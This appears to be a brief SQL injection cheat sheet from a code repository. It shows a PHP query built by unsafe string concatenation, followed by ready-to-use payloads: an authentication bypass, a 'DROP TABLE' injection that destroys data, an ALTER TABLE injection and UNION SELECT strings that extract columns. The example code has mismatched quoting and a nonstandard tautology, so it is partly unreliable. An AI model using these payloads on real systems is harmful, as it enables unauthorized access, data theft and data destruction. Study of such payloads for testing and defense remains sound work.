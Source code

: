 # SQL Injection
## The basics

How an example of unsecure sql statement looks like:

<pre>
$SQL = "SELECT * FROM <i>{tablename}</i> WHERE <i>{username}</i> = ' + <b><i>$_POST["username"]</i></b> + ' AND ' + <b><i>$_POST['password']</i></b>'";
</pre>

To break the statement:

<pre>
$SQL = "SELECT * FROM <i>{tablename}</i> WHERE <i>{username}</i> = ' + <b><i>1' OR 1+1--</i></b> + ' AND ' + <b><i>$_POST['password']</i></b>'";
</pre>

<br>

### Simple SQL injection test
```SQL
'
1' OR 1+1--
\'
```
### Where table name is known
```SQL
1'; DROP TABLE {tablename} --

```
### Where column name is known
```SQL
1'; ALTER TABLE {tablename} ALTER COLUMN {columnname} {datatype} --
1' UNION SELECT {columnname} FROM {tablename};--
1' UNION ALL SELECT {columnname} FROM {tablename};--
```
